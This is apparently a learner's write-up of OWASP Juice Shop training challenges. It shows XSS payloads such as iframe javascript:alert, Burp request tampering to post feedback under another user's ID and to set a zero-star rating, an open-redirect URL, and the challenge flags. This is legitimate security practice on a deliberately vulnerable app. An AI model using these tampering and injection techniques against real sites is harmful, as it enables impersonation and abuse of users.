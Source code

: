 
## A.1 Question

    Use the bonus payload `<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>` in the _DOM XSS_ challenge.



I injected this in the search field in the index page and got the flag


```
You successfully solved a challenge: Bonus Payload (Use the bonus payload <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> in the DOM XSS challenge.)X

  

26bdee65430d102cf5f1d41046c2ff22c95811d3
```

I did the same thing to other xss payload and got the flag

`<iframe src="javascript:alert(`xss`)">`

I also tried this other simple payload in the same value field but got nothing
`<script>window.alert(1+2)</script>`

```
You successfully solved a challenge: DOM XSS (Perform a DOM XSS attack with <iframe src="javascript:alert(`xss`)">.)X

  

9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf
```


## A.2 Question

Privacy Policy

```
You successfully solved a challenge: Privacy Policy (Read our privacy policy.)X

  

8e06eced07b76ecba5f981ad6681d6e57018b008
```

this was in the account options


A.3 Question 

I was trying to solve the `Give a devastating zero-star feedback to the store.`

i intercepted the req with burp and changed the `id` from `1` to `2`

and got this flag

```
You successfully solved a challenge: Forged Feedback (Post some feedback in another users name.)X

  

113a09b9fb82ff5b6e31896dc4821e0f86b99470
```

---

Here i found out the minimum start i can give in the browser is 1 start so maybe i can intercept the req change maybe change the value 

and so i did

`"rating":1` to `"rating":0` 


```
You successfully solved a challenge: Zero Stars (Give a devastating zero-star feedback to the store.)X

  

88b7c1d1349d618f7f0e25563295543559d98d4f
```

A.4 Question

While solving this question i used a writeup 
`Follow the DRY principle while registering a user`


Here the only thing we had to do was intercept the request and change  this value
`"passwordRepeat":"other@123",`


```
You successfully solved a challenge: Repetitive Registration (Follow the DRY principle while registering a user.)X

  

1b4a395d8f5765efab3b6451bf647e6c1c42cca7
```

A.5 Question

Find the endpoint that serves usage data to be scraped by a [popular monitoring system](https://github.com/prometheus/prometheus).


Here i google about prometheus and found out its endpoint with google search 


`promethrus web app endpoint`

```
You successfully solved a challenge: Exposed Metrics (Find the endpoint that serves usage data to be scraped by a popular monitoring system.)X

  

162ec5844b48c66144e543e1605a5030ddd2cc60
```


A.6 Question

Let us redirect you to one of our crypto currency addresses which are not promoted any longer.

here i used the writeup because i was not able to find anything, and used this writeup
https://curiositykillscolby.com/2020/11/07/pwning-owasps-juice-shop-pt-11-outdated-whitelist/


```
http://juice-sh.op/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm
```

```
You successfully solved a challenge: Outdated Whitelist (Let us redirect you to one of our crypto currency addresses which are not promoted any longer.)X

  

958004ff28e7b5c18e2a3b04496da11ecbefe339
```


A.7 Question


Retrieve the photo of Bjoern's cat in "melee combat-mode".


also stuck here, going for writeup

This was the solution: 


Navigate to `http://localhost:3000/#/photo-wall`.

`http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-#zatschi-#whoneedsfourlegs-1572600969477.jpg`

The hashtags are restricted characters (HTML anchors), so replace them with the URL encoding %23.

`http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg`

```
You successfully solved a challenge: Missing Encoding (Retrieve the photo of Bjoern's cat in "melee combat-mode".)X

  

31f8880f90c127ae0a757f49587d4e4780099601
```